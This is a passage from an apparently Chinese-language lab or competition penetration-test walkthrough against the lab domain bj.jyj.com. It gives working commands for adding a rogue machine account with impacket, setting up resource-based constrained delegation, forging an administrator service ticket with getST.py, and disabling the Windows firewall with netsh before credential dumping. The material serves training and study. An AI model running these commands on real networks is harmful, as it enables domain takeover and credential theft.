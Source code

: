 ![image-20220528125848000000-1656056174329447.png](img/中小型企业环境网络安全渗透赛 local/84cfce4d54145632aa7c84361451afe8.png)

发现：JASON    KEVIN  通过test机器用户加入到bj.jyj.com域中

添加机器

通过addcomputer.py添加一台机器账户，位置：

`C:\Users\Administrator\Desktop\工具\内网渗透\impacket-master\impacket-master\examples\`

```python
python3 addcomputer.py -computer-name "hackcomputer$" -computer-pass 123456 -dc-ip 192.168.100.50 "bj.jyj.com/test:Password@123"
```

![image-20220528125928000000-1656056175922186.png](img/中小型企业环境网络安全渗透赛 local/452fe024a3a29dd47601dc569ce126c2.png)

配置hackcomputer到PC-liming的基于资源约束的委派，在kali中执行（需要配置代理，/etc/proxychains4的最后一行的ip（win10ip）和端口）：

```python
proxychains4 python3 /root/Desktop/Tools/rbcd-attack/rbcd.py -f hackcomputer -t KEVIN -dc-ip 192.168.100.50 bj.jyj.com\\test:Password@123
-f  主机名
-t  目标主机的主机名
-dc-ip  域控地址
```

![image-20220528125944000000-1656056177511822.png](img/中小型企业环境网络安全渗透赛 local/82136bb2fa29e5118ddfa345b034a3be.png)

通过impacket套件中的getST.py申请一张ticket并且导入，模拟administrator，位置：

`C:\Users\Administrator\Desktop\工具\内网渗透\impacket-master\impacket-master\examples\`

```python
python3 getST.py -spn cifs/KEVIN.bj.jyj.com -impersonate administrator -dc-ip 192.168.100.50 bj.jyj.com/hackcomputer$:123456
```

![image-20220528125956000000-1656056179136472.png](img/中小型企业环境网络安全渗透赛 local/e4e5af25efa997694160ca9f64e7c45b.png)

##### 任务15：利用生成的票据抓取密码（T1078-利用有效账户凭据、T1112-修改注册表、T1555-抓取存储的密码、T1134-操作访问令牌）

查看192.168.51.33的防火墙状态，在之前横向的shell中执行（若卡住了，关闭重新横向再执行）：

```sh
netsh advfirewall show allprofiles
```

![image-20220528130052000000-1656056180759199.png](img/中小型企业环境网络安全渗透赛 local/25459896fa04937cee6c45fab0eb4486.png)

关闭防火墙

```sh
netsh advfirewall set allprofiles state off
```

![image-20220528130110000000-1656056182382539.png](img/中小型企业环境网络安全渗透赛 local/60bb98fda82a10ebb4a56eb67c24ad67.png)
